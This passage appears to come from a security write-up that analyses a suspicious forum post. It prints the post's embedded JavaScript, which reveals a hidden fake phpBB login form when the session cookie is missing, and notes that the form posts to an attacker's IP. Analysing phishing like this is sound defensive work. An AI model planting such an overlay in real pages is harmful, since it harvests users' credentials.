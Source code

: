 

Right at the top I'll note that it's unusual / suspect for the post to
have JavaScript embedded in it.

Dropping this into an [online beautifier /
previewer](https://codebeautify.org.mdviewer) generates the
nicely-spaced code above, and offers this preview:

![](/img/image-20240520121231490.png)

Saving the HTML to a file and opening it in Firefox shows a bit more:

![](/img/image-20240520122201533.png)

Interestingly, it cuts off and won't scroll further.

Looking at the raw HTML, at the top there's JavaScript that waits for
the page to load and then captures the user's cookie:



        document.addEventListener("DOMContentLoaded", function(event) {
          let cookieexists = false;
          let name = "phpbb_token=";
          let cookies = decodeURIComponent(document.cookie);
          let ca = cookies.split(';');
          for (let i = 0; i < ca.length; i++) {
            let c = ca[i];
            while (c.charAt(0) == ' ') {
              c = c.substring(1);
            }
            if (c.indexOf(name) == 0) {
              cookieexists = true;
            }
          }
          if (cookieexists) {
            return;
          }
          var modal = document.getElementById('zbzbz1234');
          modal.classList.remove("hidden");
        });



If there is no cookie, it shows the `zbzbz1234` element. If I make that
element hidden in my Firefox window (running
`document.getElementById('zbzbz1234').classList.add("hidden");` in the
dev tools console), then the page looks different:

![](/img/image-20240520122434499.png)

Looking more closely at the form that gets hidden, it's a fake login
form pointing to the attacker's IP:

![](/img/image-20240520122554693.png)
